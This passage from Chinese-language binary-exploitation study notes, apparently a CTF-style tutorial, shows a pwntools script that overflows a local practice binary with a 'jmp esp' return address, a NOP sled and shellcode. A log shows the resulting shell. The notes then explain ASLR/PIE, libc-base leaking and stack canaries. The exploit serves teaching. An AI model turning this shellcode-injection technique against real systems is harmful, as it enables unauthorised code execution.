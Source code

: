 ## 修改攻击脚本
使用找到的"jmp esp"地址而不是程序中给出的栈的地址
```python
from pwn import *
#context.log_level = 'debug'
p = process("./test")
sc = asm(shellcraft.i386.sh())
temp = int(p.recvline(),16)
sc_addr = '\xa9\xfa\xdf\xf7'        #p32(temp + 0x12 + 4 + 4)
payload = 0x12 * 'a' + 'bbbb'  + sc_addr + '\x90'*10 + sc
p.sendline(payload)
p.interactive()
```
攻击成功
```python
$ python test.py
[+] Starting local process './test': pid 9999
[*] Switching to interactive mode
$ ls
flag    test
```

## 防御手段2:ASLR和PIE
地址址空间配置随机化（英语：Address space layout randomization，缩写ASLR，又称位址空间配置随机化、位址空间布局随机化）
它是一种防范内存损坏漏洞被利用的计算机安全技术。位址空间配置随机载入利用随机方式配置资料定址空间，使某些敏感资料（例如作业系统内核）配置到一个恶意程式无法事先获知的位址，令攻击者难以进行攻击。
- 程序每次执行的地址和libc的地址都会随机变化
- 使用固定地址的"jmp esp"攻击失效

## 应对手段
### 泄漏libc基地址
即使开启地址随机化，也不是全随机的。对于linux来说，开启ASLR，libc的基地址在每一次启动时都会变化，但是libc本身是整块存入内存的。即libc中指令相对于其基地址的偏移是不会变化的。而libc本身的指令是足够getshell的，所以要对抗ASLR，可以从泄露libc基地址下手。



## 防御手段3: stack cookies
* Canary
在缓冲区和返回地址之间插入一个cookie，函数返回时会检查其是否被修改，如果与插入时的值不一致，则认为发生了缓冲区溢出。
![](assets/markdown-img-paste-20180514223337942.png)
